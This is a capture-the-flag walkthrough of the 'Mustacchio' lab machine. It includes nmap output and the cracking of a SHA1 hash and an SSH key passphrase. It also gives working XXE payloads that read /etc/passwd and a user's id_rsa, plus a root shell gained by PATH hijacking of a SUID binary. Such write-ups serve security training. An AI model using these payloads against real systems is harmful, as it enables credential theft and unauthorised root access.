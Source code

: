 ![](Images/theme.png)
What we can learn from this machine :
* XXE injection
* Enumerations
* SUID exploit

let's start with a nmap scan. normal nmap scan found port 80 webserver called Mustacchio and port 22 ssh open running ubuntu. I try to running a full nmap scan for see more ports are open above the port 1000.

![](Images/web.png)

```
# Nmap 7.91 scan initiated Sat Jun 12 14:57:25 2021 as: nmap -sC -sV -p- -oN scans/nmap-allports 10.10.236.36
Nmap scan report for 10.10.236.36
Host is up (0.15s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d3:9e:50:66:5f:27:a0:60:a7:e8:8b:cb:a9:2a:f0:19 (RSA)
|   256 5f:98:f4:5d:dc:a1:ee:01:3e:91:65:0a:80:52:de:ef (ECDSA)
|_  256 5e:17:6e:cd:44:35:a8:0b:46:18:cb:00:8d:49:b3:f6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 12 15:07:37 2021 -- 1 IP address (1 host up) scanned in 611.67 seconds
```
We found nginx page in port 8765. let's see what is in there. 

![](Images/login.png)

Looks like we found a login page. Let's put that port away and let's enumerate port 80 first. After run gobuster I found this directory on port 80. **http://10.10.236.36/custom/js/** In this you can see this **user.bak** file.

![](Images/user%20bak.png)

After we open it we can see this hash.
```
admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```
Let's crack it with **hashcat**. Here is the my command to hashcat.
First copy hash part and make a file then run following command.
```bash
hashcat -a 0 -m 100 hash1.txt /opt/seclist/rockyou.txt
```
Output :

```
Dictionary cache hit:
* Filename..: /opt/seclist/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

1868e36a6d2b17d4c2745f1659433a54d4bc5f4b:bulldog19
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA1
Hash.Target......: 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
Time.Started.....: Sat Jun 12 16:34:48 2021 (0 secs)
Time.Estimated...: Sat Jun 12 16:34:48 2021 (0 secs)
Guess.Base.......: File (/opt/seclist/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5658.1 kH/s (0.24ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 688128/14344385 (4.80%)
Rejected.........: 0/688128 (0.00%)
Restore.Point....: 684032/14344385 (4.77%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: bultaco -> blah2007

Started: Sat Jun 12 16:34:35 2021
Stopped: Sat Jun 12 16:34:50 2021
```
Let's login in with our credentials.

Our credentials :
* Username: admin
* Password: bulldog19

 After login we can see this page.

![](Images/after%20login.png)

when we look at our hint. It says look at the page source. You can find this html comment on page source.

![](Images/hint.png)

Its something about barry's SSH key. When we go to that **/auth/dontforget.bak**. In the file you can see this xml code. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
Looks like we can execute a XXE attack. After some time I got a /etc/passwd.

Documentation : https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>

  <com>&xxe;</com>
</comment>
```
![](Images/passwd.png)

We got joe and barry as a users. It works well. Let's try to get a barry's id_rsa file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>

  <com>&xxe;</com>
</comment>
```
![](Images/idrsa.png)

Now we got the id_rsa but its messy. If you Look into the page source for proper formatted key. 

![](Images/id_rsa%20pagesource.png)

Looks like we need a passphrase to id_rsa. Let's crack it with **john the ripper**. First you need to make a hash throught ssh2jhon. If you don't know how to do it.

This blog post will help you :
https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/Mustacchio]
└──╼ $john --wordlist=/opt/seclist/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2021-06-13 09:19) 0.4566g/s 6548Kp/s 6548Kc/s 6548KC/sa6_123..*7¡Vamos!
Session completed
```
We got our passphrase. Let's ssh to our user.

```bash
ssh -i id_rsa barry@10.10.24.119
Enter passphrase for key 'id_rsa': urieljames
```
In **/home/barry** we can get our user flag. Let's get into the root. In the hints, They said about SUID lets find suid permission files.

Use command :
find / -perm -4000 2>/dev/null

```bash
barry@mustacchio:~$ find / -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```
Looks like we have a suid permission on **/home/joe/live_log** file. Let's take a look into that file.

```bash
barry@mustacchio:~$ cd /home/joe
barry@mustacchio:/home/joe$ ls -la
total 28
drwxr-xr-x 2 joe  joe   4096 Jun 12 15:48 .
drwxr-xr-x 4 root root  4096 Jun 12 15:48 ..
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log
```
When we string that **live_log** file you can see this line on bin file.
```
tail -f /var/log/nginx/access.log
```
Let’s change the path variable and create a tail with some malicious code to get us root. let’s do it.

So first I’m going to create a file called tail in /tmp/ directory and create a script that gives us a root shell.

Use commands :
```bash
echo /bin/bash -i > tail
export PATH=/tmp:$PATH
chmod +x tail
cd joe/
./live_log 
```
Let's see that in action.
```bash
barry@mustacchio:/home/joe$ cd /tmp
barry@mustacchio:/tmp$ ls
barry@mustacchio:/tmp$ echo /bin/bash -i > tail
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ chmod +x tail
barry@mustacchio:/tmp$ cd /home/joe
barry@mustacchio:/home/joe$ ./live_log 
root@mustacchio:/home/joe# ls
live_log
root@mustacchio:/home/joe# cd /root
root@mustacchio:/root# ls
root.txt
root@mustacchio:/root# cat root.txt
```
You pwn it !!

Thx for reading !!

